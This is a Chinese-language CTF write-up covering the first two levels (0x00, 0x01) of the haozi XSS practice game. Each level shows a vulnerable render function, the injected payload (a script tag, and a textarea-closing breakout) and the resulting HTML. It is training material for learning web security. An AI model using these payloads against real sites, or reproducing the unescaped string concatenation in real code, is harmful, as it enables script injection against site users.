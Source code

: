 ```yaml
---
title: XSS game alert(1) writeup
key: 2a0e261d739cfd49e0626b0a10fed40b
tags:
  - XSS
  - Writeup
  - CTF
date: 2019-04-25 21:08:00
---
```

- 平台地址：[https://xss.haozi.me/](https://xss.haozi.me/#/0x00)
- Github项目：[https://github.com/haozi/xss-demo](https://github.com/haozi/xss-demo)


## 0x00 

- server code

```js
function render (input) {
  return '<div>' + input + '</div>'
}
```

- input code

```html
<script>alert(1)</script>
```

- html

```html
<div><script>alert(1)</script></div>
```

## 0x01 

- server code

```js
function render (input) {
  return '<textarea>' + input + '</textarea>'
}
```

- input code


```html
</textarea><script>alert(1)</script> //闭合<textarea>即可
```

- html

```html
<textarea></textarea><script>alert(1)</script></textarea>
```
